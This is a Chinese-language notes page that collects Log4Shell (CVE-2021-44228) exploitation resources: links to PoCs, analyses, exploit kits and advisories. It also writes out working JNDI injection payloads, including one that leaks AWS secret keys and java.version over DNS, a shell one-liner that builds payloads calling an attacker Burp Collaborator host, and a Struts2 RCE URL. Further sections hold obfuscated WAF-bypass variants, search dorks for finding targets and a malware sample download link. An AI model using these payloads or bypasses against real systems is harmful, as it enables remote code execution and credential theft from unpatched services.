



[poc-exp1](https://github.com/udoless/apache-log4j-rce-poc)

[log4j JNDI注入原理以及更多扩展](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/)

[关于log4j 讨论的时间线](https://twitter.com/GossiTheDog/status/1469248250670727169)

https://xz.aliyun.com/t/10649

[log4j2 的0day是如何被作者发现的](https://mp.weixin.qq.com/s?__biz=MzA4NzA5OTYzNw==&mid=2247484189&idx=1&sn=4d8ada2cdec25f8697418485e2c12bb2&chksm=903fd287a7485b91abc437341ef4176444ab452a8021105e55e9f3cbd4a1ec2de7a1f1353952&mpshare=1&scene=1&srcid=1214Re0mazzQgLSyCqtHxS2g&sharer_sharetime=1639497078676&sharer_shareid=b0041670f2acfa3d466c67be7c2e0e21&notreplace=true#rd)

使用log4j漏洞查看目标java使用的版本



```
${jndi:ldap://${sys:java.version}.dnsloag.cn}
form:https://twitter.com/Rayhan0x01/status/1469571563674505217

${env:AWS_SECRET_ACCESS_KEY} 
from:https://twitter.com/Dinosn/status/1469798474816364548
```


[一些JNDI工具分享](https://twitter.com/zhzyker/status/1469121439161012227)

[log4j漏洞分析](https://www.randori.com/blog/cve-2021-44228/)


一句话sh验证漏洞

```
cat hosts.txt | sed 's/https\?:\/\///' | xargs -I {} echo '{}/${jndi:ldap://{}.attacker.burpcollaborator.net}' >> log4j.txt

from:https://twitter.com/aksquaretech/status/1469297067948347394
```


struts2 log4j2 RCE

```
https://twitter.com/testanull/status/1469549425521348609

/$%7bjndi:ldap:/$%7blower:/%7d192.168.139.1:1389/o=tomcat%7d$%7blower:/%7d/ 

https://youtu.be/D-TwQRoX6Fk
```


[Log4Shell 的相关安全公告/公告 (CVE-2021-44228)](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

[log4j 讨论频道](https://discord.com/channels/521382216299839518/919976471924183141)

[关于一些burp被动替换http请求头的扫描](https://twitter.com/payloadartist/status/1469582893772984322)

[log4j 漏洞一些特殊的利用方式](https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg)

[log4j漏洞影响清单](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

[log4j payload生成器](https://github.com/woodpecker-appstore/log4j-payload-generator)

[思科受影响的产品](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-apache-log4j-qRuKNEbd#vp)


[漏洞说明：LOG4SHELL](https://mogwailabs.de/en/blog/2021/12/vulnerability-notes-log4shell/)

触发点tips

```
*.s3.amazonaws.com/*.png?v=${jndi:ldap://*.dnslog.cn/a}
inurl:"/?utm_campaign="
inurl:"/?utm_content="
inurl:"/?utm_ctm_source="
inurl:"/?utm_contenrce="
inurl:"/?utm_medium="
inurl:"/?utm_source="
inurl:".do?fbto=&soor="
inurl:"?redirect_uri="
```


[讨论版](https://www.reddit.com/r/blueteamsec/comments/rd38z9/log4j_0day_being_exploited/)


恶意样本

https://bazaar.abuse.ch/download/81f288645cf2afaf018a7ac6363fee28888a9bfbfbfa842b904ed5b6c74cb47f/


一些混淆




```
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}

from:https://twitter.com/BountyOverflow/status/1470001858873802754

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}

from:https://twitter.com/wugeej/status/1469982901412728832
```


[绕过技术](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words)

[Log4j 的 Apache Solr 和 Oracle Weblogic RCE](https://www.youtube.com/watch?v=9sCT2hGiy_U)


```
VMware大部分产品

Jedis

Logging

Logstash

HikariCP

Hadoop Hive

ElasticSearch

Apache Solr

Apache Struts2

Apache Flink

Apache Druid

Apache Log4j SLF4J  Binding

spring-boot-strater-log4j2

Camel :: Core

JBoss  Logging 3

JUnit Vintage Engine

WSO2 Carbon Kernel  Core

直接引用log4j的组件可参考如下链接：

https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/usages?p=1
```


一些常用http头

```
https://twitter.com/hrbrmstr/status/1470161293365628939
```


exp

```
https://github.com/jas502n/Log4j2-CVE-2021-44228
```


[搭配内网回显脚本](https://github.com/gh0stkey/Command2API)

关键字

```
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}
${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java:runtime}
${java:vm}
${java:os}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s:accountName}
${k8s:clusterName}
${k8s:containerId}
${k8s:containerName}
${k8s:host}
${k8s:labels.app}
${k8s:labels.podTemplateHash}
${k8s:masterUrl}
${k8s:namespaceId}
${k8s:namespaceName}
${k8s:podId}
${k8s:podIp}
${k8s:podName}
${k8s:imageId}
${k8s:imageName}
${log4j:configLocation}
${log4j:configParentLocation}
${spring:spring.application.name}
${main:myString}
${main:0}
${main:1}
${main:2}
${main:3}
${main:4}
${main:bar}
${name}
${marker}
${marker:name}
${spring:profiles.active[0]
${sys:logPath}
${web:rootDir}

from:https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a
```


bypass

```
${j${lower:n}d${lower:i}${lower::}${lower:l}d${lower:a}p${lower::}${lower:/}/${lower:1}${lower:2}${lower:7}.${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}0${lower:9}${lower:9}/${lower:o}${lower:b}j}
 
${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}
 
${${nuDV:CW:yqL:dWTUHX:-j}n${obpOW:C:-d}${ll:-i}:${GI:-l}d${YRYWp:yjkg:wrsb:RajYR:-a}p://${RHe:-1}2${Qmox:dC:MB:-7}${ucP:yQH:xYtT:WCVX:-.}0.${WQRvpR:ligza:J:DSBUAv:-0}.${v:-1}:${p:KJ:-1}${Ek:gyx:klkQMP:-0}${UqY:cE:LPJtt:L:ntC:-9}${NR:LXqcg:-9}/o${fzg:rsHKT:-b}j}
 
${${uPBeLd:JghU:kyH:C:TURit:-j}${odX:t:STGD:UaqOvq:wANmU:-n}${mgSejH:tpr:zWlb:-d}${ohw:Yyz:OuptUo:gTKe:BFxGG:-i}${fGX:L:KhSyJ:-:}${E:o:wsyhug:LGVMcx:-l}${Prz:-d}${d:PeH:OmFo:GId:-a}${NLsTHo:-p}${uwF:eszIV:QSvP:-:}${JF:l:U:-/}${AyEC:rOLocm:-/}${jkJFS:r:xYzF:Frpi:he:-1}${PWtKH:w:uMiHM:vxI:-2}${a:-7}${sKiDNh:ilypjq:zemKm:-.}${QYpbY:P:dkXtCk:-0}${Iwv:TmFtBR:f:PJ:-.}${Q:-0}${LX:fMVyGy:-.}${lS:Mged:X:th:Yarx:-1}${xxOTJ:-:}${JIUlWM:-1}${Mt:Wxhdp:Rr:LuAa:QLUpW:-0}${sa:kTPw:UnP:-9}${HuDQED:-9}${modEYg:UeKXl:YJAt:pAl:u:-/}${BPJYbu:miTDQJ:-o}${VLeIR:VMYlY:f:Gaso:cVApg:-b}${sywJIr:RbbDTB:JXYr:ePKz:-j}}


from:https://twitter.com/sirifu4k1/status/1470403278500691975
```

[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)





扫描工具分析

https://fullhunt.io/blog/2021/12/13/detecting-log4j-rce-at-scale.html

https://github.com/channyein1337/log4j-detect


JNDI-Exploit-Kit